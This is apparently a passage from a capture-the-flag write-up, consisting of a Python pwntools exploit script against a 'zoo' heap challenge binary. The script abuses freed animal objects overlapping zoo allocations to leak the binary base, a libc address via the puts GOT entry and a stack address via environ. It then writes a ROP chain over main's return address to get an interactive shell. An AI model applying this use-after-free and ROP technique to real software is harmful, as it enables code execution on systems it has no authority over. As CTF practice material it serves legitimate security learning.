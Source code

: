 ```py
print_animal(A1)

elf.address = u64(p.recvlines(2)[-1].split()[-1][0x10:].ljust(8, b'\x00')) - elf.sym.__init_zoo
print(hex(elf.address))

# Get libc leak by overlapping zoo with a delete animal (read GOT)
A2 = create_animal("stdnoerr", 9999)
delete_animal(A2)

Z2 = create_zoo(p64(elf.got.puts))

print_animal(A2)

libc.address = u64(p.recvlines(2)[-1].split()[-1].ljust(8, b'\x00')) - libc.sym.puts
print(hex(libc.address))

# Leak stack from libc environ (using previous technique)
A3 = create_animal("stdnoerr", 9999)
delete_animal(A3)

Z3 = create_zoo(p64(libc.sym.environ))

print_animal(A3)

stack_leak = u64(p.recvlines(2)[-1].split()[-1].ljust(8, b'\x00'))
print(hex(stack_leak))

# Write rop on main return
A3 = create_animal("stdnoerr", 9999)
delete_animal(A3)

Z3 = create_zoo(p64(stack_leak - 304))

modify_animal(A3, p64(libc.address + POP_RDI) + p64(libc.address + 0x1cb42f) + p64(libc.address + 0x582c0 + 2), 9999)

sendchoice(0)
# attach_gdb()

p.interactive()
p.close()
```
